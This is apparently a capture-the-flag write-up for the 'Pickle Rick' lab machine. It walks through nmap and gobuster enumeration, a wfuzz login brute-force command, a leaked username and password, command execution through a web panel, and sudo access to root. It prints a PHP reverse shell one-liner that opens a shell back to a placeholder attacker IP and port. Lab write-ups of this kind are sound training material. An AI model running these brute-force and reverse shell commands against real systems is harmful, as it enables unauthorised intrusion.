


# RICK WRITEUP
## Optional but useful:
When starting the machine, I got the IP and put it in hosts. To make it more efficient at getting to the site. IP: 10.10.108.239; host: rick.thm.

## Reconnaissance 
An important step in web enumeration is to get the nmap scan.

After seeing port: 80 (http port), we know there is a website involved. We also need to note that port: 22 (ssh port) is also open, which means we can possibly gain root access.

After going to the website, we see this

We now know our goal, which is to find the last three secret ingredients to change Rick back into a person.

## Enumeration

After digging deeper, you can see in the inspect element the username.

Username: R1ckRul3s

Very useful information; now we know there has to be some type of login page for this.

Knowing that a new page is needed using a fuzzing tool or directory brute forcing tool. The one I used was "gobsuter." Knowing we need to find a different page I used the payload of

`gobuster dir -u http://rick.thm -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php`

Got the results of:

After looking at the results, one stands out the most. Login.php is most likely the page we are looking for.

Another page that wasn't listed was robots.txt (which is used for web scrapping); most websites have it. When looking at it, it only has Wubbalubbadubdub; maybe it has a significance.

When using not knowing the password, you can try to brute force the password. Since we already know that the user name is "R1ckRul3s" it cuts down on how long it will take to find the password. After running

`wfuzz -c -z file,apache-user-enum-2.0.txt --hw 61 -d "username=R1ckRul3s&password=FUZZ" http://rick.thm/login.php`

The response was this:

Although that random word in Robots.txt might be the password. And bingo, that was the password, and now we are on the portal.php page. So the username and password was R1ckRul3s, Wubbalubbadubdub.

After looking around in the different tabs, it looks like we only have access to the commands section.

This command panel might be what we need for the first ingredient. When you run 'ls' in the panel, it shows what is in the directory.

When trying to read the file, it looks like we can't use the cat command. It is important to note that we are the user www-data. After multiple different commands to read the file, I found that the 'less' command works. Running

`less Sup3rS3cretPickl3Ingred.txt`

We get the first ingredient. Now we need to find the next two to help Rick turn back to normal. Looking back on the first directory, there is a text file named clue. Running the less command on the clue.txt says "Look around the file system for the other ingredient.".

After running pwd, we see that we are in the /var/www/html file path. We are not able to change the directory using cd, which means that we have to traverse the file system via the 'ls' command.

After looking, there is a file named "second ingredients" when running:
` ls ../../../home/rick/`

Instead of using the command panel, we can run a reverse PHP shell, which allowed access to the www-data user via the command line.
Payload:
    `php -r '$sock=fsockopen("[MACHINE IP]",[PORT NUMBER]);exec("/bin/sh -i <&3 >&3 2>&3");'`

Now we can use all of the commands that this user can do. Which also means that the website had some client-side filiters.

When running: `cat "second ingredients"` we get the second ingredient. It is required to have quotations around the second ingredients, since the command line thinks it is two different things. Now on to the third and final ingredient.

Most likely, the final ingredient would be in the root directory. When trying to ls the directory, there is an error saying we don't have the permissions. Although we can try the sudo command to get permission. Running: `sudo ls -la root` we see that 3rd.txt is in the root directory.

We now need to run the less command to see the file: `sudo less root/3rd.txt`. It works! The third and final ingredient was found, and Rick is now back to a normal person.

## Conclusion

At the beginning, using nmap to see the open ports and using gobuster to find the directories. We were able to gain access to the login page. Using the command panel to get the first ingredient, then using a PHP reverse shell to gain access to the machine. Finding the second ingredient in `/home/rick/`. Finally, finding the last indgredient in `/root/3rd.txt` using sudo to gain permission.
